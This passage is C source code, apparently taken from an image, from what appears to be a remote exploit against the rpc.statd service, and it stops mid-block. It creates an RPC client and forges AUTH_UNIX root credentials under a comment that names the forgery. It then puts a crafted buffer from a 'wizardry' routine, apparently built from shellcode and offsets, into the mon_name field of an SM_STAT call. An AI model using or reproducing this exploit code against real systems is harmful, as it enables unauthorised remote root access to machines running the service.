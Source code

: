  

    if(!usetcp)

    {

        clnt = clntudp_create(&addr, SM_PROG, SM_VERS, tv, &sockp);

        if(clnt == NULL)

        {

            clnt_pcreateerror("clntudp_create()");

            exit(EXIT_FAILURE);

        }

        tvr.tv_sec = 2;

        tvr.tv_usec = 0;

        clnt_control(clnt, CLSET_RETRY_TIMEOUT, (char *) &tvr);

    }

    else

    {

        clnt = clnttcp_create(&addr, SM_PROG, SM_VERS, &sockp, 0, 0);

        if(clnt == NULL)

        {

            clnt_pcreateerror("clnttcp_create()");

            exit(EXIT_FAILURE);

        }

    }

 

    /* AUTH_UNIX / AUTH_SYS authentication forgery */

    clnt->cl_auth = authunix_create("localhost", 0, 0, 0, NULL);

 

    buff = wizardry(sc, bufpos, buflen, offset, wipe);

    smname.mon_name = buff;

 

    res = clnt_call(clnt, SM_STAT, (xdrproc_t) xdr_sm_name,

        (caddr_t) &smname, (xdrproc_t) xdr_sm_stat_res,

        (caddr_t) &smres, tv);

 

    if(res != RPC_SUCCESS)

    {

